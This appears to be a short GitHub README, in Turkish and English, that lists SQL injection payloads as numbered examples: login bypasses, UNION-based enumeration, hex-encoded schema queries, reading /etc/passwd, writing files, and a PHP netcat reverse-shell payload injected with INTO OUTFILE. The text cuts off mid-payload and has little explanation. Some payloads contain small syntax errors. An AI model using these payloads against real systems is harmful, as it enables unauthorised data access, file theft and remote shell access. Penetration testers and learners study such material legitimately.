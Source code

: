 # SQLBypass-Penetration

## SQL Injection ve Active Directory Penetration Testing Örnekleri

### Temel SQL Injection

#### Örnek 1: Basit SQL Injection

#SELECT * FROM accounts WHERE username=david AND password='1234' AND 1=1#

### Exam 2: Login Bypass

#SELECT * FROM accounts WHERE username='david'# AND password='1234'

### Exam 3: OR Operatörü

#SELECT * FROM accounts WHERE username='david' AND password='1234' OR 1=1#

### Exam 4: SQL Injection Get Method

#http://example.com/login?username=david' OR '1'='1&password=1234

### UNION SELECT İşlemleri

#Exam 5: UNION SELECT Basic Usage

#username='david' UNION SELECT 1,2,3,4,5#

### Exam 6: Advanced Level SQL Injection

#1' AND 1=1#
#1' ORDER BY 1,2,3--+
#1' GROUP BY 1,2,3--+
#' UNION SELECT sum(columnname) from tablename--

### Get HEX

## Exam 7: HEX İle SQL Injection

#david' union select 1,table_name from information_schema.tables where table_schema = 0x64767761#

### Örnek 8: Read File

#1' union select 1,load_file('/etc/passwd')#

### Exam 9: Write File

#1' union select 1,'test',into outfile 'tmp/test.txt'#

### sql vulnerability Get Shell

# Exam 10: PHP Reverse Shell

#<?passthru("nc 10.0.2.4 4040 -e /bin/bash");?>

#1' union select 1,'<?passthru("nc 10.0.2.4 4040 -e /bin/bash");?>',into outfile 'tmp/mys
